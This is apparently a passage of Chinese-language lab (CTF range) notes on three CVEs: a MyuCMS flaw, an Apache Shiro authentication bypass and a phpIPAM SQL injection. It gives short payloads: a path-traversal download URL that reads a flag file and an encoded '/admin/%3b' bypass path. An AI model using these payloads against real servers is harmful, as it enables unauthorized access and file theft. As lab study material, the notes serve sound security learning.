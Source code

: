 

## CVE-2020-21650 MyuCMS后台rce

*靶标介绍：*

MyuCMS开源内容管理系统,采用ThinkPHP开发而成的社区商城聚合，插件，模板，轻便快捷容易扩展 其2.2版本中admin.php/config/add方法存在任意命令执行漏洞.

```
/index.php/bbs/index/download?url=../../../../../flag&local=1&name
```

![image-20230719165512785](%E9%9D%B6%E5%9C%BA.assets/image-20230719165512785.png)



## CVE-2020-13933 Shiro < 1.6.0 验证绕过漏洞

*靶标介绍：*

<p>Apahce Shiro 由于处理身份验证请求时出错 存在 权限绕过漏洞，远程攻击者可以发送特制的HTTP请求，绕过身份验证过程并获得对应用程序的未授权访问。</p>

```
/admin/%3b
```

![image-20230720083253172](%E9%9D%B6%E5%9C%BA.assets/image-20230720083253172.png)

## CVE-2019-16692 phpIPAM 1.4 - SQL Injection

*靶标介绍：*

phpIPAM 1.4后台存在SQL Injection

参考https://packetstormsecurity.com/files/165683/PHPIPAM-1.4.4-SQL-Injection.html
